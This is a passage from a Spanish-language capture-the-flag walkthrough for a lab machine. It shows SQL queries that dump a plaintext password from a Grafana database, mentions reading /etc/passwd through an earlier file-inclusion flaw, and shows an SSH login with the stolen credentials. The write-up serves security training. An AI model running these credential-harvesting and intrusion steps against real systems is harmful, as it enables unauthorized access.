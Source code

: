    **Resultado:**
   ```
   +----------------------------+
   | Tables_in_grafana_db       |
   +----------------------------+
   | users                      |
   | org_user                   |
   | api_key                    |
   | dashboard                  |
   ... (más tablas) ...
   ```

3. Consultamos la tabla `users` para obtener posibles credenciales:
   ```sql
   select * from users;
   ```

   **Resultado:**
   ```
   +---------+--------------------------------+
   | usuario | passwd                         |
   +---------+--------------------------------+
   | cloud   | b0KjQXwH801dm2vnOgP2anEc8JGidc |
   +---------+--------------------------------+
   ```

---

#### ✍️ Análisis y conexión SSH

¿**Recordamos** que previamente obtuvimos el archivo `/etc/passwd` mediante el LFI en Grafana? En ese archivo identificamos al usuario `cloud` con la siguiente configuración:

```
cloud:x:1001:1001::/home/cloud:/bin/bash
```

Esto nos indicó que el usuario `cloud` tiene acceso a una shell Bash (`/bin/bash`). Más adelante, al consultar la tabla `users` en la base de datos de Grafana, obtuvimos las siguientes credenciales asociadas al usuario `cloud`:

- **Usuario:** `cloud`
- **Contraseña:** `b0KjQXwH801dm2vnOgP2anEc8JGidc`

Combinamos esta información y probamos conectarnos al servidor mediante SSH con éxito:

```bash
ssh cloud@10.0.2.14
```

**Salida:**
```
The authenticity of host '10.0.2.14 (10.0.2.14)' can't be established.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

cloud@TheHackersLabs-Incertidumbre's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)

Last login: Fri Oct 18 17:35:25 2024 from 192.168.18.48
cloud@TheHackersLabs-Incertidumbre:~$ whoami
cloud
cloud@TheHackersLabs-Incertidumbre:~$ pwd
/home/cloud
```
